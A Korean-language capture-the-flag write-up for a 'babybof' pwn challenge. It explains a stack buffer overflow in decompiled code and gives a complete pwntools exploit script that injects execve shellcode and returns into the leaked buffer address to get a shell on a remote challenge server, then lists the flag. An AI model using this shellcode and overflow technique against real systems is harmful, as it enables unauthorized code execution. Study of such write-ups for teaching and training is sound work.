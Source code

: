 # babybof
- - - -
문제파일을 보니 main에는 setup과 vuln밖에 없고 실질적인 코드는 vuln에서 진행되었다.
* vuln
```
__int64 vuln()
{
  char buf; // [rsp+0h] [rbp-30h]
  int v2; // [rsp+2Ch] [rbp-4h]

  printf("Here is gift: %p\n", &v2);
  printf("input> ");
  read(0, &buf, 0x100uLL);
  if ( v2 != -559038737 )
  {
    puts("nop!");
    exit(1);
  }
  return 0LL;
}
```
rbp-4의 주소를 leak해주고 buf에 0x100바이트 만큼 read를 해서 overflow를 발생 시킨다. 이후 rbp-4의 값이 -559038737(0xdeadbeef)인지 확인 후 return을 한다.
간단하게 쉘코드를 buf에 넣고 rbp-4 부분에 0xdeadbeef 를 넣은 후 leak된 값에서 buf의 위치를 계산해서 이 위치값을 ret해주면 된다.


## payload
- - - -
```
from pwn import *

#p = process("./babybof")
p = remote("121.142.206.70", 40000)

p.recvuntil("gift: ")
leak =int(p.recvline()[:-1],16)
leak = leak - 44

shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload=""
payload+= shellcode
payload+="\x90"*(44-len(payload))
payload+=p32(0xdeadbeef)
payload+="b"*8
payload+= p64(leak)

p.recvuntil("input> ")
p.send(payload)

p.interactive()
```


## flag
- - - -
flag{nice_basic_bof}

#CTF/IGRUS/pwn